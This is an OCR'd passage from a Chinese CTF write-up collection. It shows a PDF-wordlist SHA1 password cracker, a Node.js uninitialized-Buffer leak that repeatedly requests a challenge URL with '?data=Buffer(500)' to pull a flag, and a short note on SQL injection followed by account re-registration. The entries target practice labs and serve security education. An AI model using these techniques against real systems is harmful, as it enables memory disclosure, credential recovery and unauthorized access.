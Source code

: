 ```
    with open(path, 'rb') as fp:
        for page in PDFPage.get_pages(fp, set()):
            interpreter.process_page(page)
        text = retstr.getvalue()
    device.close()
    retstr.close()
    return text
 
 
def find_password():
	pdf_path = get_pdf()
	for i in pdf_path:
		print "Searching word in " + i
		pdf_text = convert_pdf_2_text(i).split(" ")
		for word in pdf_text:
			sha1_password = hashlib.sha1(word+"Salz!").hexdigest()
			if sha1_password == '3fab54a50e770d830c0416df817567662a9dc85c':
				print "Find the password :" + word
				exit()
 
if __name__ == "__main__":
	find_password()
```
得出password: ThinJerboa

## hitcon_2016_leaking

node.js沙箱逃逸问题，node.js8.0版本前当 Buffer 的构造函数传入数字时, 会得到与数字长度一致的一个 Buffer，并且这个 Buffer 是未清零的。8.0 之后的版本可以通过另一个函数 Buffer.allocUnsafe(size) 来获得未清空的内存。

```
import requests
import time
url = 'http://402a95ea-15ad-46a2-be88-35e62822cb27.node3.buuoj.cn/?data=Buffer(500)'
response = ''
while 'flag' not in response:
        req = requests.get(url)
        response = req.text
        print(req.status_code)
        time.sleep(0.1)
        if 'flag{' in response:
            print(response)
            break  

```

## ics-04

查询用户页存在注入，查到用户名后，可以利用用户名重新注册

## ics-05
